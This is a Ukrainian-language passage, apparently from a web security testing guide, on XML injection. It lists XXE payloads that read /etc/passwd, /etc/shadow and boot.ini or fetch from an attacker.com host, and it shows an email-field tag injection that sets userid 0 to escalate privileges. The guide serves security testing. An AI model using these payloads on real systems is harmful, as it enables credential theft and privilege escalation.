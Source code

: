 Цей тест може призвести до збою веб-сервера (у системі UNIX), якщо синтаксичний аналізатор XML спробує замінити сутність вмістом файлу /dev/random.

Інші корисні тести:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>

```

### Введення тегів

Після виконання першого кроку тестувальник матиме деяку інформацію про структуру документа XML. Тоді можна спробувати вставити XML-дані та теги. Ми покажемо приклад того, як це може призвести до атаки на підвищення привілеїв.

Розглянемо попередню заявку. Вставивши такі значення:

```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com

```

програма створить новий вузол і додасть його до бази даних XML:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail>
        <userid>0</userid>
        <mail>s4tan@hell.com</mail>
    </user>
</users>

```
